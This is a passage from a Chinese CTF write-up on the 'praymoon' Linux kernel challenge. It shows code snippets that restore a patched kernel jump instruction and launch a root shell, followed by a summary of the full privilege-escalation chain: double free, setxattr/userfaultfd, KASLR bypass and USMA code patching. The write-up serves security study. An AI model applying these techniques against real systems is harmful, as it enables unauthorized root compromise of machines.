```

**原始指令恢复**：
在确认权限提升成功后，恢复原始的条件跳转指令。恢复操作将内核代码恢复到原始状态，避免系统不稳定或被检测。恢复是负责任的利用实践，减少对目标系统的影响。恢复原始指令确保系统功能完整，内核代码与修改前相同。

```c
char restore_patch = 0x75;
pgv_write(0, 0xa04, 1, &restore_patch);
```

**root shell启动**：
通过system或execve启动新的shell进程。新进程继承父进程的特权，以root身份运行。shell提供完整的系统访问能力，可以执行任意命令。这是权限提升的最终目标，证明技术验证完全成功，获得了完整的系统控制权。

```c
system("/bin/sh");
```

### 4-6. 技术总结

praymoon漏洞利用是一个从简单Double Free漏洞到完整权限提升的复杂技术验证过程，它从驱动程序中的简单Double Free漏洞出发，通过SLUB分配器的LIFO特性实现内存重用，利用setxattr+userfaultfd技术实现精确的内存状态控制和时序同步，通过信息泄露绕过KASLR防护，再通过二次内存重用和指针重定向控制pg_vec结构，最后利用USMA技术实现内核代码修改，成功绕过权限检查获取root权限。整个利用链展示了现代内核漏洞利用的高度复杂性和技术深度，结合了内存管理特性、时序控制、信息泄露、代码修改等多种技术，成功绕过了包括KASLR、SLAB_FREELIST_RANDOM在内的多种安全机制，揭示了内核安全防护在面对复杂组合利用时的局限性，为内核安全研究和防护提供了重要的技术参考和实践经验。整个利用过程从环境初始化、Double Free触发、内存状态控制、信息泄露、KASLR绕过、内存重构、USMA映射、内核代码修改到最终权限提升，形成了一个完整的内核利用链，展示了现代系统安全攻防的技术复杂性。

## 5. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

- https://github.com/BinRacer/pwn4kernel/tree/master/src/USMA
- https://vul.360.net/archives/391
- https://github.com/ALateFall/blogs/blob/main/system/kernel/Linux_kernel8_USMA.md
- https://blingblingxuanxuan.github.io/2023/04/01/230401-n1ctf2022-pwn-praymoon
